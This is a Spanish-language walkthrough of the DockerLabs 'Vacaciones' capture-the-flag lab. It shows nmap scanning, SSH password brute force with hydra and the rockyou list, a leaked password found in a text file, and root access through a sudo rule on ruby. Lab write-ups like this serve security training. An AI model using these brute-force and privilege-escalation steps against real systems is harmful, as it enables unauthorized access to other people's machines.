 
plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/YCEGAISD#y6iWUG_auH4vUApClb9ix7H6JmOCKm4vAYS2TjQn59g
Nombre: Vacaciones
Dificultad: muy fácil



1 comprobamos si tenemos docker instalado de no ser así lo instalamos

```sh fold:"Comprobar si docker está instalado"
docker -v
```

```sh fold:"Instalacion de docker"
sudo apt install docker.io
```

Ahora levantamos la maquina:

```sh fold:"Levantamos la maquina en docker"
sudo bash auto_deploy.sh vacaciones.tar 

```


Desplegamos la máquina:

![[Dockerlabs - Vacaciones - Despliegue me maquina.png]]

Hacemos un ping para comprobar conectividad y sistema operativo:

ping 172.17.0.2       
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.154 ms


ttl=64 --> maquina Linux

ahora vamos a lanzar nmap
```sh fold:"Nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```



![[Dockerlabs - Vacacioens - Nmap result.png]]

puertos
puerto 22 ssh
puerto 80  http

vamos a lanzar el scrip de nmap para cada puerto:

puerto 80:
```sh fold:"Scrip vulnerabilidades de Nmap puerto 80"
sudo nmap --script "vuln" -p80 172.17.0.2 
```

Descubierto:   After NULL UDP avahi packet DoS (CVE-2011-1002).
![[Dockerlabs - Vacacioens -  Script vbuln p 80.png]]

Ahora lanzamos el del puerto 22:

```sh fold:"Scrip vulnerabilidades de Nmap puerto 22"
sudo nmap --script "vuln" -p22 172.17.0.2 
```


Descubrimos la misma vulnerabilidad
![[Dockerlabs - Vacacioens -  Script Vulnerabilidad P22.png]]
no parece que podamos explotar nada


![[Dockerlabs - Vacacioens -  Vacaciones web.png]]

Al parecer no hay nada en la web:
Vamos a ver el código fuente:

![[Dockerlabs - Vacaciones - Codigo Fuente.png]]
y nos encontramos un mensaje:

<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
encontramos 2 usuarios:
- Juan
- Camilo


Alguno de estos usuarios podría estar en el sistema con acceso por SSH (puerto 22)

Como no conocemos la contraseña, solo podemos hacer fuerza bruta con Hydra





```sh fold:"Fuerza bruta con Hydra usuario camilo"
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - Vacaciones - Hydra p 22 usuario camilo.png]]

User: camilo  
password: password1


intentamos hacer login por ssh

```sh fold:"ssh acces con camilo como usuario"
ssh camilo@T172.17.0.2
```

acceso con camilo:
![[Dockerlabs - Vacaciones - acceso por ssh usuario camilo.png]]

## escalada de privilegios:
sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 2f317d25df18.


```sh fold:"Revisar si tenemos permiso de escritura en /etc/passwd"
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd
```
No result

```sh fold:"Revisar binarios que se puedan explotar"
find  / -perm -4000 2>/dev/null  
```

No result

Seguimos buscando
find / type f -name "*.txt" todos los ficheros txt:


![[Dockerlabs - Vacaciones - Fichero de correo encontrado.png]]

nos llama la atención este fichero  correo.txt que si tenemos acceso, vamos a abrirlo

![[Dockerlabs - Vacacioens -  Contenido fichero correo.png]]

Contenido:
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

Obtenemos una contraseña vamos a probarla con el usuario root:
![[Dockerlabs - Vacaciones - Intento acceso rrot.png]]

Pero hno accedemos
también tenemos el usuario Juan vamos a probar con este usuario:

Ahora is tenemos acceso con el usuario Junan:
![[Dockerlabs - Vacaciones - Acceso usuario Juan.png]]



$ sudo -l
Matching Defaults entries for juan on 2f317d25df18:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 2f317d25df18:
    (ALL) NOPASSWD: /usr/bin/ruby

Buscamos esto en gyfobins:

![[Dockerlabs - Vacacioens -  Gtfobbins ruby sudo access.png]]

ejecutamos este comando
y conseguimos acceso root
![[Dockerlabs - Vacaciones - Root access.png]]


ahora vamos a  eliminar la maquina pulsando Ctrl+C
![[Dockerlabs - Vacacioens -  Eliminar la maquina.png]]

Maquina resuelta completamente


